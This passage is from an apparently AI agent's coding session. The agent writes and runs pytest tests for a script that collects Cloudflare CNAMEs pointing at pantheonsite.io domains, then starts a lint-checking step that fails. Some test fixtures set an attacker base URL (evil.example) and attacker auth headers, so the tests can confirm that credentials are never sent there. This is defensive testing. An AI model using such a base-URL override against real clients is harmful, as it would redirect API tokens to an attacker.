loader.exec_module(module)\n    return module\n\n\ndef record(**overrides):\n    \"\"\"A stand-in for a cloudflare RecordResponse; the code under test only reads attributes.\"\"\"\n    fields = {\"type\": \"CNAME\", \"name\": \"www.example.edu\", \"id\": \"rec-1\",\n              \"content\": \"live-umich-example1.pantheonsite.io\", \"proxied\": True,\n              \"ttl\": 1, \"comment\": None, \"tags\": [], \"settings\": None}\n    fields.update(overrides)\n    return types.SimpleNamespace(**fields)\n\n\n# --- Task 1: the match rule ------------------------------------------------------------------\n\ndef test_normalize_strips_case_whitespace_and_the_root_dot(fpc):\n    assert fpc.normalize(\"  LIVE-Umich-X.PantheonSite.IO.  \") == \"live-umich-x.pantheonsite.io\"\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"live-umich-example1.pantheonsite.io\",\n    \"LIVE-UMICH-EXAMPLE1.PANTHEONSITE.IO\",\n    \"live-umich-example1.pantheonsite.io.\",\n])\ndef test_is_platform_domain_accepts_platform_hostnames(fpc, name):\n    assert fpc.is_platform_domain(name) is True\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"notpantheonsite.io\",          # the leading dot in PLATFORM_SUFFIX is what rejects this\n    \"pantheonsite.io\",             # the bare apex is not a site's platform domain\n    \"www.example.edu\",\n    \"live-umich-example1.pantheonsite.io.evil.example\",\n])\ndef test_is_platform_domain_rejects_everything_else(fpc, name):\n    assert fpc.is_platform_domain(name) is False\n\n\n# --- Task 2: credentials ---------------------------------------------------------------------\n\nAMBIENT_CLOUDFLARE_VARS = {\n    \"CLOUDFLARE_API_TOKEN\": \"ambient-token\",\n    \"CLOUDFLARE_API_KEY\": \"ambient-key\",\n    \"CLOUDFLARE_EMAIL\": \"ambient@example.edu\",\n    \"CLOUDFLARE_API_USER_SERVICE_KEY\": \"ambient-usk\",\n    \"CLOUDFLARE_BASE_URL\": \"https://evil.example/v4\",\n    \"CLOUDFLARE_CUSTOM_HEADERS\": \"X-Auth-Email: attacker@evil.example\\nX-Auth-Key: evil-key\",\n}\n\n\ndef write_config(tmp_path, body):\n    \"\"\"A config file containing just a [Cloudflare] table.\"\"\"\n    path = tmp_path / \"config.toml\"\n    path.write_text(f\"[Cloudflare]\\n{body}\\n\")\n    return str(path)\n\n\ndef sent_request(client):\n    \"\"\"The request the SDK would actually send.  Offline: _build_request performs no I/O.\"\"\"\n    from cloudflare._models import FinalRequestOptions\n    return client._build_request(FinalRequestOptions(method=\"get\", url=\"/zones\"))\n\n\ndef test_resolve_config_value_passes_literals_and_non_strings_through(fpc):\n    assert fpc.resolve_config_value(\"plain-literal\", \"where\") == \"plain-literal\"\n    assert fpc.resolve_config_value(True, \"where\") is True\n    assert fpc.resolve_config_value(None, \"where\") is None\n\n\n@pytest.mark.parametrize(\"marker\", [\"<{env CF_TEST_VAR}\", \"<{secret env CF_TEST_VAR}\"])\ndef test_resolve_config_value_reads_the_environment(fpc, monkeypatch, marker):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"from-the-environment\")\n    assert fpc.resolve_config_value(marker, \"where\") == \"from-the-environment\"\n\n\ndef test_resolve_config_value_substitutes_inside_a_larger_string(fpc, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"middle\")\n    assert fpc.resolve_config_value(\"a<{env CF_TEST_VAR}z\", \"where\") == \"amiddlez\"\n\n\ndef test_resolve_config_value_uses_the_default_when_the_variable_is_unset(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    assert fpc.resolve_config_value(\"<{secret env CF_TEST_VAR fallback}\", \"where\") == \"fallback\"\n\n\ndef test_resolve_config_value_reports_an_unset_variable_with_no_default(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env CF_TEST_VAR}\", \"config.toml [Cloudflare].api_key\")\n    assert \"CF_TEST_VAR\" in str(caught.value)\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_resolve_config_value_rejects_a_substitution_it_cannot_resolve(fpc):\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{secret aws cloudflare/token}\", \"where\")\n    assert \"secret aws cloudflare/token\" in str(caught.value)\n\n\ndef test_resolve_config_value_names_a_malformed_substitution(fpc):\n    \"\"\"An unbalanced quote makes shlex raise ValueError, which escaped as a raw traceback at\n    exit 1 -- a code SPEC section R6 does not use (adversarial review round 1, finding 3).\"\"\"\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env FOO don't}\", \"config.toml [Cloudflare].api_key\")\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_cloudflare_client_prefers_the_api_token(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_TOKEN\", \"tok-123\")\n    path = write_config(tmp_path, 'api_token = \"<{secret env CF_TEST_TOKEN}\"\\n'\n                                  'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_token == \"tok-123\"\n\n\ndef test_cloudflare_client_sends_only_the_configured_credential(fpc, tmp_path, monkeypatch):\n    \"\"\"SPEC R2a, asserted as the security property rather than the attribute state implementing it.\n\n    The SDK reads six ambient variables; ALL of them are exported here, so a regression that\n    dropped any one field from the pin goes red.  Measured against cloudflare 5.4.0; an SDK that\n    captured credentials at construction, or added a fifth route, would make this go red -- which\n    is the point, since pyproject declares the dependency unpinned.\n    \"\"\"\n    for name, value in AMBIENT_CLOUDFLARE_VARS.items():\n        monkeypatch.setenv(name, value)\n    path = write_config(tmp_path, 'api_token = \"tok-123\"')\n    client = fpc.cloudflare_client(path)\n\n    assert client.auth_headers == {\"Authorization\": \"Bearer tok-123\"}\n    request = sent_request(client)\n    assert str(request.url).startswith(\"https://api.cloudflare.com/client/v4/\")\n    leaked = {v for v in request.headers.values()} & set(AMBIENT_CLOUDFLARE_VARS.values())\n    assert leaked == set(), f\"ambient credentials reached the wire: {leaked}\"\n\n\ndef test_cloudflare_client_ignores_an_ambient_base_url(fpc, tmp_path, monkeypatch):\n    \"\"\"$CLOUDFLARE_BASE_URL would otherwise send the configured token to an arbitrary host --\n    strictly worse than the defect the credential pin was written for (round 2, finding 3).\"\"\"\n    monkeypatch.setenv(\"CLOUDFLARE_BASE_URL\", \"https://evil.example/v4\")\n    path = write_config(tmp_path, 'api_token = \"tok-123\"')\n    request = sent_request(fpc.cloudflare_client(path))\n    assert \"evil.example\" not in str(request.url)\n\n\ndef test_cloudflare_client_falls_back_to_email_and_key(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CLOUDFLARE_API_TOKEN\", \"ambient-token\")\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_email == \"someone@example.edu\"\n    assert client.api_key == \"k-456\"\n    assert client.api_token is None\n    assert \"ambient-token\" not in set(sent_request(client).headers.values())\n\n\ndef test_cloudflare_client_requires_both_email_and_key(fpc, tmp_path):\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n\n\ndef test_cloudflare_client_rejects_a_non_string_credential(fpc, tmp_path):\n    \"\"\"TOML is typed: `api_token = true` would otherwise reach the SDK and be stringified into\n    `Authorization: Bearer True` -- the confusing 401 the marker rules exist to prevent.\"\"\"\n    path = write_config(tmp_path, \"api_token = true\")\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n    assert \"bool\" in str(caught.value)\n\n\ndef test_cloudflare_client_without_a_cloudflare_section_is_a_startup_error(fpc, tmp_path):\n    path = tmp_path / \"config.toml\"\n    path.write_text('[Pantheon]\\norg_id = \"abc\"\\n')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(str(path))\n    assert \"[Cloudflare]\" in str(caught.value)\n\n\ndef test_cloudflare_client_with_a_missing_file_is_a_startup_error(fpc, tmp_path):\n    with pytest.raises(fpc.StartupError):\n        fpc.cloudflare_client(str(tmp_path / \"nope.toml\"))\n\n\n# --- Task 3: the fold ------------------------------------------------------------------------\n\ndef test_collect_entries_builds_the_output_structure(fpc):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(ttl=300, comment=\"migrated\",\n                                                               tags=[\"cdn\"]))])\n    assert entries == {\n        \"www.example.edu\": {\n            \"zone_id\": \"zone-a\",\n            \"origins\": [\"live-umich-example1.pantheonsite.io\"],\n            \"record_id\": \"rec-1\",\n            \"proxied\": True,\n            \"ttl\": 300,\n            \"comment\": \"migrated\",\n            \"tags\": [\"cdn\"],\n            \"settings\": None,\n        },\n    }\n    assert warnings == []\n\n\ndef test_collect_entries_keeps_dns_only_records(fpc):\n    \"\"\"The whole reason this script exists next to fqdns.json, which is proxied=True only.\"\"\"\n    entries, _ = fpc.collect_entries([(\"zone-a\", record(proxied=False))])\n    assert entries[\"www.example.edu\"][\"proxied\"] is False\n\n\ndef test_collect_entries_serializes_a_pydantic_settings_model(fpc):\n    \"\"\"record.settings is a pydantic model; json.dump cannot serialize one.\"\"\"\n    from cloudflare.types.dns.cname_record import Settings\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(settings=Settings(flatten_cname=True)))])\n    settings = entries[\"www.example.edu\"][\"settings\"]\n    assert settings[\"flatten_cname\"] is True\n    # Asserting the whole dict would pin the SDK's model shape (it also carries ipv4_only /\n    # ipv6_only); what matters is the value round-tripping and the entry staying serializable,\n    # which a live pydantic model would not be.\n    json.dumps(entries)\n\n\ndef test_collect_entries_tolerates_a_record_missing_the_optional_fields(fpc):\n    bare = types.SimpleNamespace(type=\"CNAME\", name=\"www.example.edu\", id=\"rec-1\",\n                                 content=\"live-umich-example1.pantheonsite.io\")\n    entries, _ = fpc.collect_entries([(\"zone-a\", bare)])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"proxied\"] is False\n    assert entry[\"ttl\"] is None\n    assert entry[\"comment\"] is None\n    assert entry[\"tags\"] == []\n    assert entry[\"settings\"] is None\n\n\n@pytest.mark.parametrize(\"skipped\", [\n    {\"type\": \"A\", \"content\": \"23.185.0.4\"},\n    {\"type\": \"A\", \"content\": \"live-umich-example1.pantheonsite.io\"},   # not a CNAME\n    {\"type\": \"TXT\", \"content\": \"v=spf1 -all\"},\n    {\"type\": \"CNAME\", \"content\": \"www.example.edu.cdn.cloudflare.net\"},  # not a platform domain\n    {\"type\": \"CNAME\", \"content\": \"notpantheonsite.io\"},\n])\ndef test_collect_entries_skips_everything_that_is_not_a_platform_cname(fpc, skipped):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(**skipped))])\n    assert entries == {}\n    assert warnings == []\n\n\ndef test_collect_entries_normalizes_the_key_and_keeps_origins_raw(fpc):\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(name=\"WWW.Example.EDU.\",\n                           content=\"Live-Umich-Example1.PantheonSite.IO\"))])\n    assert list(entries) == [\"www.example.edu\"]\n    assert entries[\"www.example.edu\"][\"origins\"] == [\"Live-Umich-Example1.PantheonSite.IO\"]\n\n\ndef test_collect_entries_is_first_record_wins_across_zones_and_warns(fpc):\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\", proxied=True, ttl=1)),\n        (\"zone-b\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\", proxied=False, ttl=300)),\n    ])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"zone_id\"] == \"zone-a\"\n    assert entry[\"record_id\"] == \"rec-1\"\n    assert entry[\"proxied\"] is True\n    assert entry[\"ttl\"] == 1\n    assert entry[\"origins\"] == [\"live-a.pantheonsite.io\", \"live-b.pantheonsite.io\"]\n    assert len(warnings) == 1\n    assert \"www.example.edu\" in warnings[0]\n    assert \"zone-a\" in warnings[0]\n    assert \"zone-b\" in warnings[0]\n\n\ndef test_collect_entries_warns_for_two_matches_in_one_zone(fpc):\n    \"\"\"API-unreachable (a name holds at most one CNAME), but the file would keep one record_id\n    of two and feed a destructive rewrite, so silence is the wrong default.\"\"\"\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\")),\n        (\"zone-a\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\")),\n    ])\n    assert entries[\"www.example.edu\"][\"record_id\"] == \"rec-1\"\n    assert len(warnings) == 1\n    assert \"rec-1\" in warnings[0]\n\n\n# --- Task 4: the atomic write ----------------------------------------------------------------\n\ndef test_write_json_atomic_writes_sorted_indented_json_with_a_trailing_newline(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    fpc.write_json_atomic(str(target), {\"b\": {\"zone_id\": \"z\"}, \"a\": {\"zone_id\": \"y\"}})\n    text = target.read_text()\n    assert text.endswith(\"\\n\")\n    assert list(json.loads(text)) == [\"a\", \"b\"]\n    assert '    \"a\"' in text          # indent=4\n\n\ndef test_write_json_atomic_overwrites_an_existing_file_and_leaves_no_temp_file(fpc, tmp_path):\n    \"\"\"SPEC: the output file is regenerated in full on every run, whatever its age.\"\"\"\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"stale\": {\"zone_id\": \"old\"}}\\n')\n    fpc.write_json_atomic(str(target), {})\n    assert json.loads(target.read_text()) == {}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n\n\ndef test_write_json_atomic_leaves_the_previous_file_intact_when_serialization_fails(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"previous\": {\"zone_id\": \"kept\"}}\\n')\n    with pytest.raises(TypeError):\n        fpc.write_json_atomic(str(target), {\"bad\": {object()}})\n    assert json.loads(target.read_text()) == {\"previous\": {\"zone_id\": \"kept\"}}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n\n\n# --- Task 5: the walk and the CLI ------------------------------------------------------------\n\nclass FakePage:\n    \"\"\"A stand-in for SyncV4PagePaginationArray.\n\n    Iterating the real page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages), so\n    this fake yields across chunks: an implementation that read `page.result` instead would see\n    only the first, and this fake has no `result` attribute at all, so it would fail loudly.\n    (test_the_real_page_class_has_a_result_attribute proves that trap is real, not imagined.)\n    \"\"\"\n\n    def __init__(self, chunks, total_count=None, *, with_result_info=True):\n        self._chunks = chunks\n        self.result_info = types.SimpleNamespace(\n            model_extra={} if total_count is None else {\"total_count\": total_count},\n        ) if with_result_info else None\n\n    def __iter__(self):\n        for chunk in self._chunks:\n            yield from chunk\n\n\nclass FakeCloudflareClient:\n    \"\"\"The three list() calls fetch_platform_cnames makes, and nothing else.\n\n    `pages_by_zone` maps a zone id to the sequence of pages returned by successive calls (the\n    last repeats), so a re-read can be made to agree or disagree with the first.\n    \"\"\"\n\n    def __init__(self, accounts, zones, pages_by_zone=None, error=None):\n        self._error = error\n        self._pages_by_zone = pages_by_zone or {}\n        self._calls = {}\n        self.accounts = types.SimpleNamespace(list=lambda: accounts)\n        self.zones = types.SimpleNamespace(list=lambda account: zones)\n        self.dns = types.SimpleNamespace(records=types.SimpleNamespace(list=self._records))\n\n    def _records(self, zone_id):\n        if self._error is not None:\n            raise self._error\n        pages = self._pages_by_zone.get(zone_id) or [FakePage([[]])]\n        index = min(self._calls.get(zone_id, 0), len(pages) - 1)\n        self._calls[zone_id] = index + 1\n        return pages[index]\n\n\ndef account(identifier=\"acct-1\"):\n    return types.SimpleNamespace(id=identifier)\n\n\ndef zone(identifier, name=\"example.edu\"):\n    return types.SimpleNamespace(id=identifier, name=name)\n\n\ndef test_fetch_platform_cnames_walks_every_zone_regardless_of_proxy_status(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()],\n        zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\n            \"zone-a\": [FakePage([[record(name=\"proxied.example.edu\", id=\"rec-1\", proxied=True),\n                                  record(name=\"mail.example.edu\", id=\"rec-2\", type=\"MX\",\n                                         content=\"mx.example.edu\")]], total_count=2)],\n            \"zone-b\": [FakePage([[record(name=\"dnsonly.example.org\", id=\"rec-3\",\n                                         proxied=False)]], total_count=1)],\n        })\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"dnsonly.example.org\", \"proxied.example.edu\"]\n    assert sweep.entries[\"dnsonly.example.org\"][\"proxied\"] is False\n    assert sweep.warnings == []\n    assert (sweep.accounts, sweep.zones, sweep.records) == (1, 2, 3)\n    assert sweep.zones_checked == 2\n\n\ndef test_fetch_platform_cnames_reads_every_page(fpc):\n    \"\"\"Pagination: a single list() call is N HTTP requests, and a short read would write a\n    silently incomplete file.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [FakePage(\n            [[record(name=\"page1.example.edu\", id=\"rec-1\")],\n             [record(name=\"page2.example.edu\", id=\"rec-2\")]], total_count=2)]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n\n\ndef test_fetch_platform_cnames_retries_once_and_continues_when_the_reread_agrees(fpc):\n    \"\"\"total_count is computed for page 1, so a record changed mid-sweep makes the counts differ\n    for an entirely benign reason.  A re-read that is internally consistent is that case.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\")]], total_count=2),   # disagrees\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\"),\n                       record(name=\"b.example.edu\", id=\"rec-2\")]], total_count=2),   # agrees\n        ]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.zones_checked == 1\n\n\ndef test_fetch_platform_cnames_aborts_when_the_reread_also_disagrees(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], total_count=3)]})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"truncated\" in str(caught.value)\n    assert \"read 1 of 3\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_aborts_on_a_truncated_zone_list(fpc):\n    \"\"\"A short ZONE list silently omits every record in the missing zones -- strictly worse than\n    a short record list, and the zero-zones guard only catches the degenerate case.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()],\n        zones=FakePage([[zone(\"zone-a\")]], total_count=9))\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"truncated\" in str(caught.value)\n    assert \"zones in account acct-1\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_reports_zones_it_could_not_cross_check(fpc):\n    \"\"\"The cross-check must no-op wherever Cloudflare omits total_count -- and must SAY it did,\n    because a guard that silently never ran looks exactly like one that found nothing wrong.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], with_result_info=False)],\n                       \"zone-b\": [FakePage([[]], total_count=0)]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert list(sweep.entries) == [\"www.example.edu\"]\n    assert sweep.zones_checked == 1\n    assert sweep.zones == 2\n\n\ndef test_fetch_platform_cnames_treats_zero_zones_as_fatal(fpc):\n    \"\"\"A missing scope and a genuinely empty org produce an identical empty file.\"\"\"\n    client = FakeCloudflareClient(accounts=[account()], zones=[])\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"0 zones\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_turns_an_api_error_into_a_startup_error(fpc):\n    import cloudflare\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        error=cloudflare.APIConnectionError(request=None))\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"DNS records\" in str(caught.value)\n\n\ndef test_expected_record_count_reads_a_real_result_info(fpc):\n    \"\"\"Against the SDK's own model, not the fake: total_count survives only because\n    V4PagePaginationArrayResultInfo sets model_config extra=\"allow\".  An SDK that tightened\n    that, or renamed the field, would make the whole truncation guard no-op in production --\n    and every fake-backed test would stay green.\"\"\"\n    from cloudflare.pagination import V4PagePaginationArrayResultInfo\n    info = V4PagePaginationArrayResultInfo.model_validate(\n        {\"page\": 1, \"per_page\": 100, \"count\": 1, \"total_count\": 137})\n    assert fpc.expected_record_count(types.SimpleNamespace(result_info=info)) == 137\n\n\ndef test_the_real_page_class_has_a_result_attribute(fpc):\n    \"\"\"FakePage deliberately lacks `result` so an implementation reading page.result (page 1\n    only) fails loudly.  That trap is only meaningful if the real class HAS the attribute.\"\"\"\n    from cloudflare.pagination import SyncV4PagePaginationArray\n    assert \"result\" in SyncV4PagePaginationArray.model_fields\n\n\ndef test_api_error_text_never_includes_a_real_response_body(fpc):\n    \"\"\"Against a real SDK exception.  If status_code is ever renamed, api_error_text falls back\n    to str(e) -- which IS \"Error code: NNN - {body}\", the leak the NEVER-block forbids.\"\"\"\n    import httpx\n    import cloudflare\n    body = {\"errors\": [{\"code\": 10000, \"message\": \"token cf-secret-xyz invalid\"}]}\n    request = httpx.Request(\"GET\", \"https://api.cloudflare.com/client/v4/zones\")\n    error = cloudflare.PermissionDeniedError(\n        f\"Error code: 403 - {body}\",\n        response=httpx.Response(403, request=request, json=body), body=body)\n    text = fpc.api_error_text(error)\n    assert text == \"PermissionDeniedError: HTTP 403\"\n    assert \"cf-secret-xyz\" not in text\n\n\ndef test_main_writes_the_file_and_reports_the_dns_only_count(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\", lambda client, verbose=False: fpc.SweepResult(\n        {\"a.example.edu\": {\"zone_id\": \"z\", \"origins\": [\"live-a.pantheonsite.io\"],\n                           \"record_id\": \"r\", \"proxied\": False, \"ttl\": 1,\n                           \"comment\": None, \"tags\": [], \"settings\": None}},\n        [\"ATTENTION: something worth seeing\"], 1, 4, 12431, 3))\n    assert fpc.main([\"-c\", \"ignored.toml\"]) == 0\n    written = json.loads((tmp_path / fpc.OUTPUT_FILE).read_text())\n    assert list(written) == [\"a.example.edu\"]\n    err = capsys.readouterr().err\n    assert \"ATTENTION: something worth seeing\" in err\n    assert \"Wrote 1 platform-domain CNAMEs (1 DNS-only\" in err\n    assert \"from 12431 records in 4 zones in 1 account(s)\" in err\n    assert \"Truncation cross-check active for 3 of 4 zones.\" in err\n\n\ndef test_main_says_so_when_nothing_matched(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda client, verbose=False: fpc.SweepResult({}, [], 1, 4, 900, 4))\n    assert fpc.main([]) == 0\n    assert json.loads((tmp_path / fpc.OUTPUT_FILE).read_text()) == {}\n    assert \"no platform-domain CNAMEs found in 4 zones\" in capsys.readouterr().err\n\n\ndef test_main_reports_a_startup_error_as_exit_2(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    assert fpc.main([\"-c\", str(tmp_path / \"nope.toml\")]) == 2\n    assert \"ERROR: cannot read\" in capsys.readouterr().err\n\n\ndef test_main_reports_an_interrupt_as_exit_130(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n\n    def interrupt(config_path):\n        raise KeyboardInterrupt\n\n    monkeypatch.setattr(fpc, \"cloudflare_client\", interrupt)\n    assert fpc.main([]) == 130\n    assert \"INTERRUPTED\" in capsys.readouterr().err\n\n\ndef test_main_names_an_unwritable_output_file_instead_of_crashing(fpc, tmp_path, monkeypatch,\n                                                                  capsys):\n    \"\"\"An OSError here lands AFTER the whole multi-minute walk; it escaped as a raw traceback at\n    exit 1 until it was named (adversarial review round 1, finding 3).\"\"\"\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda client, verbose=False: fpc.SweepResult({}, [], 1, 1, 0, 1))\n\n    def refuse(path, data):\n        raise OSError(28, \"No space left on device\")\n\n    monkeypatch.setattr(fpc, \"write_json_atomic\", refuse)\n    assert fpc.main([]) == 2\n    assert \"cannot write\" in capsys.readouterr().err\n"
}
```

### ↳ Tool result

```
The file /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/test_find_platform_domains_cloudflare.py has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && cp find-platform-domains-cloudflare probe/ && cp test_find_platform_domains_cloudflare.py probe/tests/unit/ && cd probe && chmod +x find-platform-domains-cloudflare && source /workspace/.venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -20",
  "description": "Run the revised suite"
}
```

### ↳ Tool result

```
.......................................................                  [100%]
55 passed in 0.33s
Shell cwd was reset to /workspace
```

## Assistant

55 pass. Now the critical check round 2 exposed — that the plan is executable **at every checkpoint**, not just at the end. Staging imports per task and running ruff after each:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport pathlib, re, subprocess\nfull = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests = pathlib.Path(\"test_find_platform_domains_cloudflare.py\").read_text()\n\n# Where each task's script content ends (by the first def it introduces)\nscript_marks = {1: \"def resolve_env_marker\", 2: \"def plain(\", 3: \"def write_json_atomic\",\n                4: \"def expected_record_count\", 5: None}\n# Imports each task's code actually needs, cumulative\nimports = {\n    1: \"import re\\n\",\n    2: \"import os\\nimport re\\nimport shlex\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n    3: \"import os\\nimport re\\nimport shlex\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n    4: \"import json\\nimport os\\nimport re\\nimport shlex\\nimport tempfile\\nimport tomllib\\nfrom pathlib import Path\\n\\nfrom cloudflare import Cloudflare\\n\",\n    5: None,\n}\nhead_end = full.index(\"PLATFORM_SUFFIX =\")\ndocstring = full[:full.index(\"import argparse\")]\nbody = full[head_end:]\n\ntest_marks = [m.start() for m in re.finditer(r\"^# --- Task \\d\", tests, re.M)] + [len(tests)]\ntest_head_end = tests.index(\"pytestmark = pytest.mark.unit\")\ntest_imports = {\n    1: \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\\n\",\n    2: \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\\n\",\n    3: \"import importlib.util\\nimport json\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\nfrom pathlib import Path\\n\\nimport pytest\\n\\n\",\n    4: None, 5: None,\n}\nout = pathlib.Path(\"stage\"); out.mkdir(exist_ok=True)\nfor task in (1, 2, 3, 4, 5):\n    mark = script_marks[task]\n    script = full if mark is None else docstring.replace(\n        full[full.index(\"import argparse\"):head_end], imports[task] + \"\\n\") + body[:body.index(mark)]\n    if mark is not None:\n        script = docstring[:docstring.index(\"import argparse\")] + imports[task] + \"\\n\" + body[:body.index(mark)]\n    (out / f\"s{task}\").write_text(script.rstrip() + \"\\n\")\n    (out / f\"s{task}\").chmod(0o755)\n    t = tests if test_imports[task] is None else (\n        tests[:tests.index(\"import importlib.util\")] + test_imports[task] +\n        tests[test_head_end:test_marks[task]])\n    if test_imports[task] is None:\n        t = tests[:test_marks[task]] if task < 5 else tests\n    (out / f\"t{task}.py\").write_text(t.rstrip() + \"\\n\")\n    r1 = subprocess.run([\"uvx\", \"ruff@0.15.22\", \"check\", \"--config\", \"probe/pyproject.toml\",\n                         \"--output-format\", \"concise\", str(out / f\"s{task}\")],\n                        capture_output=True, text=True)\n    r2 = subprocess.run([\"uvx\", \"ruff@0.15.22\", \"check\", \"--config\", \"/workspace/pyproject.toml\",\n                         \"--output-format\", \"concise\", str(out / f\"t{task}.py\")],\n                        capture_output=True, text=True)\n    print(f\"Task {task}: script -> {r1.stdout.strip().splitlines()[-1] if r1.stdout else 'clean'}\"\n          f\" | tests -> {r2.stdout.strip().splitlines()[-1] if r2.stdout else 'clean'}\")\nPY",
  "description": "Verify ruff passes at every per-task checkpoint"
}
```

### ↳ Tool result

```
Exit code 1
Traceback (most recent call last):
  File "<stdin>", line 34, in <module>
ValueError: substring not found
```

### ⚙ Tool call: `Bash`

```json
{
